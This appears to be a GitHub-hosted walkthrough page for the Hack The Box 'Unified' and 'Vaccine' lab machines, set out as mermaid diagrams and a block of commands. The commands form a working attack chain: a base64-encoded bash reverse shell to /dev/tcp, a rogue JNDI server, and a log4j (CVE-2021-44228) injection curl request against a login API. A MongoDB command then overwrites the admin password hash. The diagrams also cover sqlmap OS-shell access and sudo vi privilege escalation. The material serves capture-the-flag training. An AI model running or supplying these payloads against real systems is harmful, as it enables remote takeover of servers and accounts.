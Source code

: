 ## Mini-walkthroughs for Hack The Box! 

[Unified](https://app.hackthebox.com/starting-point/#unified)

<div class="mermaid">
graph LR
  subgraph Priv. Escalation
  1["Look for <br/> mongodb port"] --> 2["connect to default <br/> database ace"] --> 3["look for <br/> admin collection"] 
  4["mkpasswd -m sha-512"]--> 5["change admin </br> password"] --> 6["login with <br/> new password"] 
  6 --> 7["check site settings <br/> get root ssh password 🏳️"]

  3 --> 5
  end
  subgraph Exploit log4j
  a[Exploit log4j] --> b["install openjdk <br/> install Maven"] --> d
  a --> c[" git clone <br/> https://github.com/ <br/> veracode-research/rogue-jndi"] --> d["build <br> mvn package"] 
  a --> e[prepare bash shell] --> f["encode w. base 64"] 
  f --> g["Run the rogue server"]
  d --> g
  a --> h["start a listener <br/> nc -lvp 4444"] --> m["receive a conn. <br/> script /dev/null -c bash"] 
  g --> l["send the exploit:<br/>''${jndi:ldap://IP:1389/o=tomcat}''"] --> m
  end
  subgraph Scan
  A[nmap] --> B[8443 <br/> UniFi Network] 
  B --> D["log4j vulnerable <br/> CVE-2021-44228"]
  D --> E["param. remember <br/> Post /api/login"]
  E --> F["test with <br/> ${jndi:ldap://{IP}/whatever}"]
  F --> G["check for LDAP traffic <br/> tcpdump port 389"]
  A --> C[ssh] 
  end
</div>

Useful commands
```bash 
echo 'bash -c bash -i >&/dev/tcp/{IP}/{port} 0>&1' | base64

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" \
--hostname "{YOUR TUN0 IP ADDRESS}"

curl 'https://10.129.12.182:8443/api/login' \
--data-raw '{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.118:1389/o=tomcat}","strict":true}' \
--insecure

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

mongo --port 27117 ace --eval 'db.admin.update({"_id":\
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'

```


[Vaccine](https://app.hackthebox.com/starting-point/#vaccine)

<div class="mermaid">
graph LR
    A[nmap] --> B[FTP]
    A --> C[http]
    A --> D[ssh]
    B --> E[get zip] --> F[zip2john] --> G[john] --> H([admin/pass]) 
    C --> I[login <br/> admin/pass] --> J["sqlmap --os-shell <br/> dashboard?search"] --> K[bash reverse shell] --> L["look in <br/> /var/www/html"] --> M([postgres/pass])
    D --> N[postgres/pass] --> P["sudo -l"] --> Q["sudo vi"] --> R[GTFOBins] --> S(["root 🏳️"])
</div>


<script type="text/javascript"
  src="https://cdn.jsdelivr.net/npm/mermaid/dist/mermaid.min.js">
</script>

<script>
    mermaid.initialize({
        startOnLoad: true,
 	      theme: 'dark'
<!-- 	'themeVariables': { 'primaryColor': '#00FFFF00'}  -->
    });
</script>
